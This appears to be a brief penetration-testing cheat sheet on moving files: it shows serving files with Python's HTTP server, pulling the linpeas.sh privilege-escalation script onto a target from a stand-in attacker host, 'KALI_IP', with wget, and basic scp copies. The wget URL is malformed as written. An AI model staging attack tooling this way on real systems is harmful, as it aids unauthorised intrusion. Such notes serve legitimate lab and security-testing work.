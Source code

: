 # General Commands

### Python server

`python3 -m http.server 8888`

To download the file: `wget http:/KALI_IP//linpeas.sh`

### SCP

Copy file from local to a remote computer:

```bash
scp file.txt remote_username@10.10.0.2:/remote/directory/newfilename.txt
# -P to set the ssh port in necessary case
```

Copy file from remote directory to local computer

```bash
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```
